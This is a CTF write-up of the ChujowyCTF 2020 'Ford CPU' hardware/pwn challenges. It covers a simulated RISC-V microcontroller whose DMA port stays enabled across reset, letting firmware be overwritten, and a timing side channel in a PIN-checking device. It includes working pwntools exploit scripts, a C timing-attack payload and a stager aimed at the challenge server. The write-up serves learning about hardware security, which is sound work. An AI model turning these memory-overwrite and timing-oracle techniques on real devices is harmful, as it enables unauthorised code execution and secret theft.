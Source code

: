#+title: ChujowyCTF 2020 - Ford CPU I & II (hardware/pwn)
#+author: Daniel Brodsky
#+date: 2020-07-17
#+hugo_base_dir: ../../
#+hugo_section: writeups
#+startup: inlineimages
#+hugo_menu: :menu "foo" :weight 10 :parent main :identifier single-toml
#+description: Everything in one problem

** Problem
~I really hate the slow transfer rates of UART, so I've designed a custom MCU based on the new cool RISC-V ISA which features a parallel port with DMA.~

~This CPU will revolutionize the automotive industry - can't wait to install it in my red ford.~

~In case someone gains arbitrary code execution on the risc-v core the Ford CPU provides advanced security mechanisms to protect secrets. The flag device reveals secrets only to people who know a secret pin. Can you steal the flag from the flagdevice?~

~nc ford-cpu.chujowyc.tf 4001~

~Source:~ [[/fordcpu.tar.gz][fordcpu.tar.gz]]
** Analysis
We're given a binary that has inside a fully-simulated RISC-V machine running a custom firmware kernel, along with all the source files to make this possible. A full machine here means that there are hardware-level specifications for a RISC-V CPU and all of its connected peripherals. These parts are described using [[https://en.wikipedia.org/wiki/Verilog][Verilog]], a hardware descriptive language (HDL). The normal circuitry descriptions that are derived from HDL are no use on our immutable host hardware, so a hardware simulator known as [[https://github.com/verilator/verilator][Verilator]] is used to compile Verilog to somewhat inefficient C/C++. I say inefficient because a described circuit can have a much higher level of parallelization by being designed with more wires handling 1 signal, while as a regular CPU is limited by the number of cores it was designed with. While it won't matter for this problem, it's still good to know the benefits of custom-designed hardware vs using a CPU.

Verilator handles 2 important parts in the execution of the system: the continuous flipping of clock signal from high to low and the passing of I/O between the host system and the simulated system. Both these parts are descibed by ~mcu_loop()~ and ~io_loop()~ in main.cpp.

Moving on, the hardware described is as follows:
- a 32-bit RISC-V CPU identical to the [[https://github.com/cliffordwolf/picorv32][picoRV32]]
- a [[https://en.wikipedia.org/wiki/Universal_asynchronous_receiver-transmitter][UART]] controller
- an [[https://en.wikipedia.org/wiki/Advanced_eXtensible_Interface][AXI]] controller
- a custom [[https://en.wikipedia.org/wiki/Parallel_port][LPT]] port for interfacing with the AXI controller
- a custom [[https://en.wikipedia.org/wiki/Semiconductor_intellectual_property_core][IP]] named the "flag device" (for part 2 only)
- a custom memory controller layer to redirect port access from memory access

An initial firmware is loaded into memory so that the user can interface with the machine. Certain memory addresses are overridden to instead trigger signals in these devices, and any actions done by these devices is concurrent to our main program. The firmware sets some initial state for hardware devices, such as enabling the LPT port and making character inputs write to the ~cmd~ buffer within the firmware for processing. It also reads state changes within the LPT using a hardware interrupt routine to determine when to process new data or throw an error. The code pertaining to these functionalities is located in ~firmware/main.c~:

#+BEGIN_SRC C

static void process_command(char* arg) {
    if(!safe_cmd_compare(arg, "inf\n")) {
        response = "This leet mcu is powered by the new RISCV architecture :D\n";
        goto exit;
    }
    if(!safe_cmd_compare(arg, "eula")) {
        response = "[END USER LICENCE AGREEMENT] INSERT SOME LONG TEXT HERE\nIf you accept the EULA then send ack\n";
        goto exit;
    }
    if(!safe_cmd_compare(arg, "ack\n")) {
        response = "OK\n";
        eula_accepted = 1;
        goto exit;
    }
    if(!safe_cmd_compare(arg, "cmp\n")) {
        if(!eula_accepted) {
            response = "You must accept the EULA\n";
            goto exit;
        } else {
            response = "Now you have 3 tries to guess the flag\n";
            flag_mode = 1;
            goto exit;
        }
    }
    response = "Invalid command\n";
exit:
  return;
}

...

const char FLAG[] = "FAKE_FLAG";
const int FLAG_SIZE = sizeof(FLAG);
volatile int tries = 0;
static void check_flag(char *arg) {
    char c = 0;
    for(int i = 0; i<FLAG_SIZE; i++) {
        c |= (FLAG[i] ^ arg[i]);
    }

    if (!c) {
        response = FLAG;
        tries = 0;
        return;
    }

    if(tries == 2) {
        // Send trap so the simulator reboots the CPU
        tries = 0;
        flag_mode = 0;
        eula_accepted = 0;
        __asm__ __volatile__ ("ebreak");
    }

    response = "INVALID FLAG\n";
    tries += 1;
}

...

static void irq_lpt_rx_done(void) {
    if(!flag_mode)
        process_command(cmd);
    else
        check_flag(cmd);

    // Send ack that the data was processed
    REG32(LPT_REG_RX_BUFFER_RX) = 1;
}

#+END_SRC

We can input a command by triggering the hardware interrupt indicating the LPT is done receiving (RX_DONE). Note that RX means for the hardware to receive from input and TX means for the hardware to transmit to output. The rx_done wire is only set to high in 1 location in the HDL:

#+BEGIN_SRC Verilog
...
if (lpt_in_data == 32'h0a0a0a0a) begin
    terminator <= 1;
    rx_done <= 1;
...
#+END_SRC
If we write 4 newline characters to the LPT (which the firmware sets to be written to already) then our command will be processed. From here we now know what we can interface with and what we can change with it.

** Part I Vulnerability

From the firmware code above we see that once we enter the flag checking state we get 3 attempts to guess the flag before the system resets itself due to a trap instruction. The reset is actually handled by the simulator in the following block of code:

#+BEGIN_SRC C++
void mcu_loop() {
    ...
        if (top->trap) {
            // Reset on CPU failure.
            fprintf(stdout, "resetting...\n");
            top->resetn = 0;
            c(10);
            top->resetn = 1;
        }
    ...
#+END_SRC

The simulator will set wire ~resetn~ to low and then complete 10 clock cycles to give the system enough to time to complete any routine that relies on this signal. There are many areas in the HDL that handle a ~resetn~ signal, as each device must reset their state back to their starting state when a reset is received. The LPT is no exception and should reset its RX and TX state registers back to their original value:

#+BEGIN_SRC Verilog
...
    if (!resetn) begin
        ctrl_rx_buffer_start_ptr <= 32'b0;
        ctrl_rx_buffer_end_ptr <= 32'b0;
        ctrl_rx_buffer_rx_ptr <= 32'b0;

        ctrl_tx_buffer_start_ptr <= 32'b0;
        ctrl_tx_buffer_end_ptr <= 32'b0;
...
#+END_SRC

What does setting the RX buffer start and end pointer to 0 here mean? The buffer start pointer indicates where data received should be written to in memory, so setting it to 0 means we'll be writing to the beginning of memory. The end pointer is meant to indicate when we're out of buffer space, but if we look at the code for this:
#+BEGIN_SRC Verilog
...
    // note: rx_buffer_rx_ptr is set to rx_buffer_start_ptr prior to this
    ctrl_rx_buffer_rx_ptr <= ctrl_rx_buffer_rx_ptr + 4;
    rx_done <= (ctrl_rx_buffer_rx_ptr + 4) == ctrl_rx_buffer_end_ptr;
    rx_done_irq <= (ctrl_rx_buffer_rx_ptr + 4) == ctrl_rx_buffer_end_ptr;
    rx_done_irq <= (ctrl_rx_buffer_rx_ptr + 4) == ctrl_rx_buffer_end_ptr;
...

assign irq_rx_done = ctrl_state_enable_rx & terminator;
assign irq_rx_full = ctrl_state_enable_rx & rx_done_irq & !terminator;
...
#+END_SRC
we see that an interrupt for a full read won't occur unless ~start + 4 == end~. Since both are at 0 when the program starts, any input will be written to memory until RAM is filled and memory loops back to 0. While there isn't any problem with this reset code, the real fault lies in that the rx buffer is never disabled when a reset occurs. Furthermore, the firmware does set the rx buffer to the location of ~cmd~ but it stalls in some of its initialization code long enough that we can overwrite all of memory.

#+BEGIN_SRC C
void main() {
...
    printf("TERMINATING SLOW UART - TIME FOR 1337 DMA xD\n");

    // Wait some time for the UART to be send to the user
    for(int i = 0; i<20000; i++);

    // Enable TX for parallel port (this disables RX)
    REG32(LPT_REG_STATE) = 2;
...
#+END_SRC

** Part I Exploit

Now that we know exactly where the vulnerability is and what we can do with it, we need to create an exploit that will leak the flag sitting in memory. Within our RISC-V core, the firmware code is executed from address 0x0 so writing any shellcode to the start of memory would already give us code execution. We would also need to trigger another reset after writing this code into memory, since the firmware would've already executed initialization by the time we can overwrite anything. However, due to how the original firmware is written, we only have 0x12 bytes at the start to work with before we would end up overwriting an IRQ handler, causing our firmware to crash before we can get the system to reset again or write in our entire payload.

#+BEGIN_SRC shell

riscv32-elf-objdump -m riscv -Mintel -D ./ram.elf | less

./ram.elf:     file format elf32-littleriscv

Disassembly of section .text:

00000000 <_ftext>:
       0:	aaa9                	j	15a <_start>
	...
       e:	0000                	unimp
      10:	a009                	j	12 <_irq>

00000012 <_irq>:
      12:	0200a10b          	0x200a10b
      16:	0201218b          	0x201218b
      1a:	60ad                	lui	ra,0xb

#+END_SRC
NOTE: ram.elf was obtained by building the given source project for the firmware

To circumvent this, we can overwrite a different executed region in memory that's large enough for our payload. Annoyingly enough, while this works locally, it fails on the target server for reasons unknown at this time (more on this in a bit).

One option to get past this problem is to take advantage of the 0x12 bytes we have available and write in a small payload that will dump all program memory. ~REG32(LPT_REG_TX_BUFFER_END) = 0x10000; while(1);~ does just that, telling the LPT to print all data in memory and then stalling long enough for the data to be printed without the machine resetting.

The other option is to try punching the problem (and server) to death by repeatedly overwriting the remote firmware with varying amounts of the firmware we have locally and seeing if the system crashes. In the process of doing this, writing ~0x248~ or more bytes of local firmware to the server causes it to dump all of its memory starting from the strings section. Hmmmm.....

The explanation for this weird behaviour can be found in the remote firmware that we dumped from the server. From there we can see that, for whatever reason, after a certain number of bytes all data in memory is shifted 2 bytes higher on remote than local. So why does writing our local firmware over the remote dump memory? Let's take a look at address ~0x248~ in the firmware to find out:

#+BEGIN_SRC shell

riscv32-elf-objdump -b binary -m riscv -Mintel -D ./local.bin | less
...
    242:	6d2000ef          	jal	ra,0x914 # strlen
    246:	87aa                	mv	a5,a0
    248:	fef42423          	sw	a5,-24(s0)
    24c:	fe842783          	lw	a5,-24(s0)
...

riscv32-elf-objdump -b binary -m riscv -Mintel -D ./remote.bin | less
...
     242:	6d4000ef          	jal	ra,0x916 # strlen
     246:	87aa                	mv	a5,a0
     248:	fef42423          	sw	a5,-24(s0)
     24c:	fe842783          	lw	a5,-24(s0)
...
#+END_SRC

Notice the difference? In the local firmware ~strlen~ is reached using ~jal ra,0x914~ while the remote firmware reads an address that is 2 bytes higher than that. Since we aren't overwriting as far as ~strlen~, this means we'll end up executing the instruction before ~strlen~ instead, which is a ~ret~. In the firmware ~strlen~ is called by ~fast_puts~ to determine how much memory it needs to set the TX buffer size to, but since ~strlen~ is now ~ret~ we end up getting back the address of the target string as its size. So our firmware ends up dumping out a bunch of memory. What a fortunate coincidence!

Oh, and we got flag...

#+BEGIN_SRC text
If you accept the EULA then send ack
\x00\x00ck
\x00\x00OK
\x00mp
\x00\x00You must accept the EULA
\x00\x00ow you have 3 tries to guess the flag
\x00nvalid command
\x00\x00chCTF{Pr0P3R_r353771n9_15_V3rY_H4RD}\x00\x00INVALID FLAG
\x00\x00RR: IRQ %d undhandled!
\x00\x00.\x11\x00
#+END_SRC

The exploit code used:

#+BEGIN_SRC python
from pwn import *

data = open("firmware.hex", "rb").read()
data = data.replace(b'\n',b'')
firmware = b''
for i in range(0,len(data), 8):
    firmware += struct.pack("<I", int(data[i:i+8],16))
write("local.bin", data=firmware)

# r = process('./Vtop')
r = remote("ford-cpu.chujowyc.tf", 4001)
r.interactive()

r.send(b"ack\n\n\n\n\n")
print(r.recv())
r.send("cmp\n\n\n\n\n")
print(r.clean())
r.send("AAAA\n\n\n\n")
print(r.clean())
r.send("AAAA\n\n\n\n")
print(r.clean())
r.send("AAAA\n\n\n\n")
firmware = firmware[:0x248]
r.send(firmware)

r.interactive()
#+END_SRC

** Part II Analysis

~In case someone gains arbitrary code execution on the risc-v core the Ford CPU provides advanced security mechanisms to protect secrets. The flag device reveals secrets only to people who know a secret pin. Can you steal the flag from the flagdevice?~

Clearly the vulnerability we're looking for lies somewhere inside of the flagdevice. There is only 1 file ~axi4_flagdevicetm.v~ that contains all of the flagdevice's functionality. A quick summary of this device (because this writeup is getting too long) is that it holds a 16-byte flag in memory that can only be read through DMA by the CPU if we write the same 16 bytes the device holds in its ~correct_pin~ memory to ~pin~ memory.
#+BEGIN_SRC C
/*
MEMORY LAYOUT:
0x00 - 0x0f --- PIN1 | PIN2 | PIN3 | PIN4 | ... | PIN15
0x10 - 0x13 --- CHECK_START // WRITING TO THIS REG WILL START PIN CHECKING
0x14 - 0x17 --- DEVICE_STATUS // 0 - idle, 1 - in progress
0x18 - 0x1b --- PIN_STATUS // 0 - wrong, 1 - correct
0x20 - ...  --- FLAG1 | FLAG2 | FLAG3 | ...
*/
#+END_SRC
We can write as much as we want to ~pin~ memory, but memory will only be checked when we write to ~CHECK_START~. The device will then check the pins input against the correct pins here:
#+BEGIN_SRC Verilog
    // PIN checking
    always @(posedge clk) begin
        if (device_status) begin
            delay <= delay + 1;
            if (delay == 8'hff) begin
                if (pin_bytes[ctr] == correct_pin[ctr]) begin
                    ctr <= ctr + 1;
                    if(ctr == 4'hf) begin
                        device_status <= 0;
                        pin_status <= 1;
                    end
                end else begin
                    device_status <= 0;
                    pin_status <= 0;
                end
            end
        end
    end
#+END_SRC
During pin checking ~DEVICE_STATUS~ will be set to 1 and once pin checking is complete it will be set back to 0. Each pin byte will be checked one at a time. If the bytes are all correct then it will set ~PIN_STATUS~ to 1, returning the flag bytes when ~FLAG~ memory is read from.

** Part II Vulnerability

An obvious oddity about the flagdevice is that there is a delay in pin checking of 255 clock cycles each time a new pin checking is requested. While this doesn't lead to anything in particular, it does bring attention to the fact that pin checking is time-sensitive. Since the device only checks 1 byte at a time and not the entire 16 byte pin in 1 cycle, there is a direct correlation between the amount of our pin that is correct and the number of cycles pin checking runs for. We can use ~DEVICE_STATUS~ as an oracle to find out when pin checking completes. Since this check is running on hardware, it's concurrent to the firmware's execution and we can measure the amount of time each run of pin checking takes.


** Part II Exploit

The above vulnerability outlines all the tools we need to build a [[https://en.wikipedia.org/wiki/Timing_attack][timing attack]] against the server. If the first byte in our pin is correct then the duration of time spent pin checking will increase. This repeats for every consecutive correct pin we write. To exploit this, we'll iterate over all possible bytes and each time the duration of pin checking increases we'll save the pin bytes used so far and start guessing the next byte. Once we get all 16 bytes we read the now available flag bytes from memory. The code for doing this can be found below:

#+BEGIN_SRC C
// get an initial delay value
int longest_delay = 0;

// I'm fucked if the first byte is 169
REG32(FLAG_DEV_PIN_0) = 169;
REG32(FLAG_DEV_CHECK_START) = 1;
// track cycles needed to check pins
while (REG32(FLAG_DEV_DEVICE_STATUS) != 0)
    ++longest_delay;

// set all pins to 0
for (int i = 0; i < 4; ++i) {
    int* addr = (int*) FLAG_DEV_PIN + 4*i;
    *addr = 0;
}

int curr = 0;
// loop for each char in pin (16)
for (int i = 0; i < 4; ++i) {

    curr = 0;
    int* addr = (int*) FLAG_DEV_PIN + i;

    for (int j = 0; j < 4; ++j) {
        // guess the value of pin_bytes[i] (0-255)
        for (int v = 0; v <= 256; ++v) {
            if (v == 256) {
                break;
            }

            int tmp = curr;
            tmp <<= (4-j)*8;
            tmp >>= (4-j)*8;
            tmp += v << j*8;
            *(addr) = tmp;

            int t = 0;
            // start checking
            REG32(FLAG_DEV_CHECK_START) = 1;
            // track cycles needed to check pins
            while (REG32(FLAG_DEV_DEVICE_STATUS) != 0)
                ++t;
            if (t >= longest_delay+5) { // pin delay, byte is correct
                curr = tmp;
                REG32(LPT_REG_STATE) = 2;
                REG32(LPT_REG_TX_BUFFER_START) = (int) &tmp;
                REG32(LPT_REG_TX_BUFFER_END) = (int) &tmp+4;
                longest_delay = t;
                break;
            }
        }
    }
}
// last byte cannot be checked w/ side-channel (same # of byte checks)
for (int v = 0; v < 256; ++v) {
    int tmp = curr;
    tmp <<= 8;
    tmp >>= 8;
    tmp += v << 24;
    *((int*) FLAG_DEV_PIN + 3) = tmp;
    REG32(FLAG_DEV_CHECK_START) = 1;
    while (REG32(FLAG_DEV_DEVICE_STATUS) != 0);
    if (REG32(FLAG_DEV_PIN_STATUS) == 1) {
        REG32(LPT_REG_STATE) = 2;
        REG32(LPT_REG_TX_BUFFER_START) = FLAG_DEV_FLAG_START;
        REG32(LPT_REG_TX_BUFFER_END) = FLAG_DEV_FLAG_START + 0x10;
        break;
    }

}

#+END_SRC

The (unnecessarily) painful part of this problem was getting the exploit code into the firmware and executing it. After compiling this code to RISC-V using the provided build files, some jump instructions were compiled to be absolute addresses within the exploit. We'd need to place our exploit at the same address in the firmware as what it was compiled to. Also, the stalling loop at the beginning of execution doesn't give us enough time to write an exploit of this size into memory while also writing in the original firmware to offset our exploit to the correct address. It's a pity we're in a custom system, because it'd be really nice to have a read syscall right about now...

I guess we could always just make our own. We can set the RX buffer ourselves to write what we input to the designated memory address, and a loop to keep the program from executing long enough to drop in our exploit. This code was written into the ~_start~ location in memory without overwriting the jump to ~main~:
#+BEGIN_SRC C
    // Stager code
    REG32(LPT_REG_RX_BUFFER_START) = (int) 0x2e2;
    REG32(LPT_REG_RX_BUFFER_END) = (int) 0x2e2 + 800;
    REG32(LPT_REG_STATE) = 2 | 1;
    int a = 0;
    while (1) {
        if (a > 100000)
            break;
        ++a;
    }
#+END_SRC
The loop in this code looks a bit weird to avoid some random issues behind the scenes that wasted several hours of my time. Anyways, using this we get the ability to write anything we want into ~main~ so we can now run our exploit.

#+BEGIN_SRC python
from pwn import *

server = open("remote.bin", "rb").read() # weirdo remote firmware dump

stager = open("stager.elf", "rb").read() # stager code at main()
payload = open("payload.elf", "rb").read() # exploit code at main()

# r = process('./Vtop')
r = remote('ford-cpu.chujowyc.tf', 4001)
r.interactive()

r.send(b"ack\n\n\n\n\n")
print(r.clean())
r.send("cmp\n\n\n\n\n")
print(r.clean())
r.send("AAAA\n\n\n\n")
print(r.clean())
r.send("AAAA\n\n\n\n")
print(r.clean())
r.send("AAAA\n\n\n\n")

firmware = server[:0x15a] + stager[0x12e4:0x1330]
r.send(firmware)

r.interactive() # manually cause reset here, then kill this shell

r.send(payload[0x12e4:0x1558])
r.interactive()
#+END_SRC

Running this gets the server to run our timing attack, compute the correct pin, and spit out the flag.

~&\x00\x00\x1a\x00\x1a\x00&\x1a0&\x1a0p\x00\x00p\xa2\x00p\xa2\p\xa2\xd2\xe\\xfc\x\xf\xc4\Č\x00Č\x86\x00Č\x86\xfe71m1N9_4774ck_xDresetting...~

~71m1N9_4774ck_xD~

** Opinion
This was my 3rd time encountering Verilog RTL in a CTF and my 2nd time seeing a full system enclosed in a single problem. I'm a bit obsessed with [[https://en.wikipedia.org/wiki/Field-programmable_gate_array][FPGAs]] at the moment, so I really wanted to solve this problem when I first saw it. I'd definitely say it was a good problem and I learned a significant amount about RISC-V assembly and hardware simulation on the way, but some inconsistencies between the remote and local wasted quite a bit of my time along the way. It was still a great question though, especially because it forces you to traverse through several software-related abstractions you rarely see.

** References
- a [[https://docs.google.com/viewer?url=https%3A%2F%2Fwww.cl.cam.ac.uk%2Fteaching%2F1617%2FECAD%2BArch%2Ffiles%2Fdocs%2FRISCVGreenCardv8-20151013.pdf&pdf=true][RISC-V cheat sheet]] for understanding how RISC-V instructions work
- another [[ https://docs.google.com/viewer?url=https%3A%2F%2Fraw.githubusercontent.com%2Fjameslzhu%2Friscv-card%2Fcc7636f39ca3e7298b209a91fd9978eef83df44b%2Friscv-card.pdf&pdf=true][RISC-V cheat sheet]] because one wasn't enough
- a [[https://docs.google.com/viewer?url=https%3A%2F%2Fweb.stanford.edu%2Fclass%2Fee183%2Fhandouts_win2003%2FVerilogQuickRef.pdf&pdf=true][Verilog reference sheet]]
